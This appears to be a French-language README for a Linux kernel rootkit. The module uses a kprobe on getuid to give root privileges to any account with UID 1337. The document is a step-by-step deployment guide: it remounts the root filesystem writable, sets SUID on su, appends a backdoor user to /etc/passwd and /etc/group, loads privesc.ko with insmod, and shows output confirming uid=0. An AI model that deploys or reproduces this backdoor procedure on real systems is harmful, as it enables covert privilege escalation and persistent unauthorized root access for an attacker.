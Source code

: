 # Rootkit PrivEsc - Guide d'utilisation

## Description

Ce rootkit utilise un **kprobe** pour intercepter la syscall `getuid`. Si l'utilisateur possède un **UID spécifique (1337)**, les privilèges de cet utilisateur sont automatiquement élevés à **root**. Ce guide décrit comment configurer un environnement de test et utiliser la fonctionnalité de privilège escaladé.

---

## Étapes d'utilisation

### 1. Monter les systèmes de fichiers nécessaires

Avant de charger le module rootkit, il est important de s'assurer que le système de fichiers `/proc` est monté et que le système de fichiers principal est en mode lecture/écriture :

```bash
mount -t proc proc /proc
mount -o remount,rw /
```

---

### 2. Configurer le système pour l'utilisateur

1. Autoriser la commande `su` pour permettre au nouvel utilisateur de passer root :

   ```bash
   chmod u+s /bin/su
   ```

2. Créer un utilisateur avec un **UID 1337** et configurer son environnement :

   ```bash
   adduser -h /home/testuser -s /bin/ash -u 1337 testuser
   ```

3. Ajouter les informations de l'utilisateur manuellement (au cas où `adduser` ne fonctionnerait pas) :
   ```bash
   echo 'testuser:x:1337:1337::/home/testuser:/bin/ash' >> /etc/passwd
   echo 'testuser:x:1337:' >> /etc/group
   mkdir -p /home/testuser
   chown -R 1337:1337 /home/testuser
   chmod -R 777 /home/testuser
   ```

---

### 3. Charger le module rootkit

1. Placez-vous dans le répertoire où se trouve le module rootkit compilé (`privesc.ko`) :

   ```bash
   cd lib/
   ```

2. Chargez le module rootkit :
   ```bash
   insmod privesc.ko
   ```

---

### 4. Tester l'élévation des privilèges

1. Connectez-vous en tant que l'utilisateur `testuser` :

   ```bash
   su - testuser
   ```

2. Vérifiez les privilèges avec la commande `id` :

   ```bash
   id
   ```

   Si le rootkit fonctionne correctement, la sortie sera similaire à :

   ```
   uid=0(root) gid=0(root) groups=1337(testuser)
   ```

   Cela indique que l'utilisateur `testuser` a maintenant les privilèges de **root**.

---

